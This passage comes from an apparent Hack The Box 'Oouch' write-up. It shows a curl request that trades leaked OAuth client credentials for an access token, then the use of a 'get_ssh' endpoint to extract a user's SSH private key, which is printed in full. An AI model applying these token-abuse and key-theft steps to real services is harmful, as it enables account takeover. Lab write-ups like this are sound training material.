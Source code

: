 We already got the client_id and client_secret so I can get the access_token.

```bash
root@kali:~/CTF/HTB/Boxes/Oouch# curl -X POST 'http://authorization.oouch.htb:8000/oauth/token/' -H "Content-Type: application/x-www-form-urlencoded" --data "grant_type=client_credentials&client_id=4muao51xk7wSAAMFe970Cr80vQaO8DusCEQW81fG&client_secret=IVehRabE8UzG9EQrzDUCy7gfupOlL15y5RKc10CeWFJT8f9zWjf3CylrUriGwEatsPvjOZyoIfagE1hF4GgKAEV9ETNuZ2N5cUx5kEMWeuTaGVSl89gzPFwoJeEE0vEI" -L -s

{"access_token": "vcvGfw7s9nDlRDedGKFgEOsDfw127H", "expires_in": 600, "token_type": "Bearer", "scope": "read write"}
```

Using that token, after some fuzzing I used `get_ssh` to grab the user's ssh key.

![Untitled](/img/htb-oouch/Untitled%2028.png)

Aligned that in correct form.

```bash
-----BEGIN OPENSSH PRIVATE KEY-----
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
-----END OPENSSH PRIVATE KEY-----
```
